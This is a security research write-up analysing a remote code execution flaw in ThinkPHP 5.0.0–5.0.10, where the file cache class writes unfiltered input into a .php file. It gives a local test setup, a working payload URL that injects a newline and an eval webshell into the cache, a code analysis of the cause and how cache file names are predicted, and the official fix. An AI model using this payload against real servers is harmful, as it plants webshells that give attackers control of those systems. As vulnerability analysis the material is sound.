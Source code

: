 # ThinkPHP5.0.x Remote Code Execution

Author: H3rmesk1t

Data: 2021.08.16

# Vulnerability Summary
- This vulnerability exists in the cache class of ThinkPHP. This class will store cached data directly in .php files through serialization. The attacker can write webshells to the cache file through a carefully constructed payload. The name and directory of the cache file can be predicted. Once the cache directory can be accessed or contains vulnerabilities in combination with any file, it can trigger the remote code execution vulnerability.
- Vulnerability impact version:
5.0.0<=ThinkPHP5<=5.0.10

# Initial configuration
Get the test environment code

```bash
composer create-project --prefer-dist topthink/think=5.0.10 tpdemo
```
![Insert the picture description here](https://img-blog.csdnimg.cn/367b733b84ce4ed485b21e0afd629fa9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Set the require field of the composer.json file to the following

```bash
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.10"
},
```

Then execute `composer update` and set the `application/index/controller/Index.php` file code as follows

![Insert the picture description here](https://img-blog.csdnimg.cn/6d3f889d805743e98da38af535401987.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
<?php
namespace app\index\controller;
use think\Cache;
class Index
{
    public function index()
    {
        Cache::set("name",input("get.username"));
        return '<style type="text/css">*{ padding: 0; margin: 0; } .think_default_text{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:)</h1><pThinkPHP V5<br/><span style="font-size:30px">Ten years of hard work - A high-performance framework designed for API development</span></p><span style="font-size:22px;">[ V5.0 version is exclusively sponsored by <a href="http://www.qiniu.com" target="qiniu">Qiu Cloud</a]</span></div><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_bd568ce7058a1091"></thinkad>';
    }
}
?>
```
# Vulnerability Exploit

Payload

````bas
http://127.0.0.1/cms/public/index.php?username=H3rmesk1t%0d%0a@eval($_REQUEST[d1no]);//
```
![Insert the picture description here](https://img-blog.csdnimg.cn/b22f06b4988d4551aff167b951cd61d5.png#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/7a818445aaaf4618b4c73d39c01eddcf.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Analysis

Follow up on the `set` method of the `Cache` class, and found that it first created a class instance through the singleton pattern `init` method. The class is determined by the `cache` configuration item `type`. By default, its value is `File`. In this case, `self::$handler` is the `think\cache\driver\File` class instance

![Insert the picture description here](https://img-blog.csdnimg.cn/6d03e14650ec43808eb2f6cf3d2d4272.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/5e9f26f0e86c4cf0a0b4d80b7059682a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/c4818b22818a404d88246d5fa9be73ef.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

In the `thinkphp/library/think/cache/driver/` directory, you can see several cache driver classes supported by Thinkphp5. Then in the above analysis, the program calls the `set` method of the `think\cache\driver\File` class. You can see that the `data` data has not been processed in any way, but is serialized and stitched in the file. The `$this->options['data_compress']` variable here is `false` by default, so the data will not be processed by the `gzcompress` function. Although a single line comment `//` is spliced ​​in front of the serialized data, we can bypass this restriction by injecting newline characters.

![Insert the picture description here](https://img-blog.csdnimg.cn/c608b06ace83450d93e3ed4050d754ba.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the image description here](https://img-blog.csdnimg.cn/d76f13392544417d9f3966bf1f141fea.png?x-oss-process=image/watermark,t
ype_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Let's see how the name of the cache file is generated. From the previous example, you can see that the file name is obtained by calling the `getCacheKey` method. Following up on this method, you can see that the subdirectory and file name of the cache file are related to the key set by the cache class (such as the key set by the cache class in this example is name). The program first obtains the `md5` value of the key name, and then uses the first `2` characters of the `md5` value as the cache subdirectory and the last 30 characters as the cache file name. If the application also sets the prefix `$this->options['prefix']` , then the cache file will have an additional directory.

![Insert the picture description here](https://img-blog.csdnimg.cn/bda2a2f3afaa4888911fd95d2284c389.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

If this vulnerability is successfully exploited, you must know the key name set by the cache class so that you can find the `webshell` path; secondly, if you develop the program according to the official instructions, `webshell` will eventually be written to the `runtime` directory, and the official recommendation `public` is the web root directory, so even if you write `shell`, you cannot directly access it; finally, if the program has set `$this->options['prefix']`, you still cannot get the exact path of `webshell` without source code

# Vulnerability Fix

The official fix is: splice the data outside the `php` tag and splice the `exit()` function in the `php` tag

![Insert the picture description here](https://img-blog.csdnimg.cn/503b5156d7114ab982a5f6afb639546d.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Attack summary

Refer to Master Mochazz's audit process

![Insert the picture description here](https://img-blog.csdnimg.cn/e5f1f064247d4bde85e8d6ca043f6b09.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)